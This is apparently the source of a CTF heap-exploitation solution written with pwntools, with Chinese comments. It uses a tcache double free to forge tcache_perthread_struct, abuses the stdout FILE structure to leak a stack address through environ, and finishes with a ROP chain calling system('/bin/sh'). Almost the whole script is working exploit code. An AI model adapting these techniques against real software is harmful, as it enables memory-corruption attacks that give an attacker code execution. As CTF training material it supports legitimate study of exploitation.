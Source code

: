 ```python
delete(7)
delete(8)
delete(7)

# malloc all tcache
for i in range(7):
    create(i,b'a'*8)

environ = libc_base + libc.sym['environ']
stdout = libc_base + libc.sym['_IO_2_1_stdout_']

create(7,p64((heap_base+0xf0)^((heap_base+0x004e40)>>12)))
create(8,b'aaaaaa')
create(8,b'a')

# 将0xf0大小的tcache块(entries指针地址在heap_base+0xf8)的entries改为heap_base+0x10
create(8,p64(0) + p64(heap_base+0x10))

# 解包过程中会申请0xe0的空间存放content，也就是说会申请0xf0大小的chunk，由于我们已经将0xf0大小的chunk的entries指针改为heap_base+0x10
# 所以我们实际上申请到了heap_base位置的chunk，即tcache_perthread_struct
# 伪造counts
payload  = p16(0)*2+p16(1)+p16(1)+p16(0)*5+p16(1)
payload  = payload.ljust(0x80,b'\x00')

# 伪造entrtes
payload += p64(0)*2+p64(stdout)+p64(stdout)+p64(0)*5+p64(heap_base+0x10)
payload  = payload.ljust(0xe0,b"\x00")
do_nothing(payload)

# leak stack_addr
payload2 = p64(0xFBAD1800)+p64(0)*3+p64(environ)+p64(environ+8)
do_nothing(payload2) 
leak = u64(p.recv(6).ljust(8,b'\x00'))
stack_addr = leak - 0x1a8 + 0x40
log.success("stack_addr : " + hex(stack_addr))

# 伪造counts
payload3  = p16(0)*4+p16(1)
payload3  = payload3.ljust(0x80,b'\x00')

# 伪造entrtes
payload3 += p64(0)*4+p64(stack_addr)
payload3  = payload3.ljust(0xa0,b"\x00")
do_nothing(payload3)

#gdb.attach(p)

pop_rdi = 0x2a3e5 + libc_base
system = libc.sym['system'] + libc_base
binsh = next(libc.search(b"/bin/sh\x00")) + libc_base
ret = 0x2a3e6 + libc_base
payload = cyclic(8) + p64(ret) +  p64(pop_rdi) + p64(binsh) + p64(system)
payload = payload.ljust(0x58,b'\x00')

do_nothing(payload)

p.interactive()
```

